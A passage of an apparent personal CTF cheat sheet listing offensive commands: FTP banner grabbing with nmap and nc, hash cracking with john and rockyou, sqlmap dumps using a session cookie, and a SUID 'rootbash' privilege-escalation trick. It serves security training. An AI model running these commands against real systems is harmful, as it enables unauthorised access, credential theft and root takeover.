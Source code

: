 <h3 class="border-bottom mb-3 mt-5" id="ftp-enumeration">ftp enumeration</h3>

The banner grab can also be used for other services.

```
sudo nmap --script ftp-* -p21 10.10.10.10
nc -nv 10.10.49.133 21  # banner grab
```


<h3 class="border-bottom mb-3 mt-5" id="john">john</h3>

Incredibly useful password hash crack tool, but do a search first check if your password hash is already cracked before saves a lot of time.
Checkout the subformats as well, I had to use that functionality on multiple occasions. If john can't do it, hashcat is another good tool. I only switch to hashcat if john can't do it.

```
john --list=formats
john --list=subformats
john --format=Raw-SHA512 --rules -w=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
# subformat syntax
user:$dynamic_#$hash$salt
john --format=dynamic_82 --rules -w=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

<h3 class="border-bottom mb-3 mt-5" id="sqlmap">sqlmap</h3>

Sql injection is very unfun and tedious to do. sqlmap is also very loud, but for CTF's that does not matter, saves a ton of time.

```
sqlmap -u http://10.10.122.177/administrator.php --forms -a
sqlmap -u http://10.10.113.186/portal.php --cookie="PHPSESSID=lr3l0hnc6gm9a4clunvbgv1vt0" --forms -a
sqlmap -r request_file.txt -a       # You could copy requests from burpsuite and use them like this
```

<h3 class="border-bottom mb-3 mt-5" id="gtfo-bins">GTFO bins</h3>

For Linux priv escalatio this is the stuff. For windows you can checkout lolbas.

```
https://github.com/GTFOBins/GTFOBins.github.io
```

<h3 class="border-bottom mb-3 mt-5" id="root-bash">root bash</h3>

Used this whenever possible. 

```
cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash
./rootbash -p
```

If you manage to get these lines executed as root you are in. I use this most often when the back up mechanism (run as root) can be manipulate.
This is a very wellknown technique look it up to learn how it works.
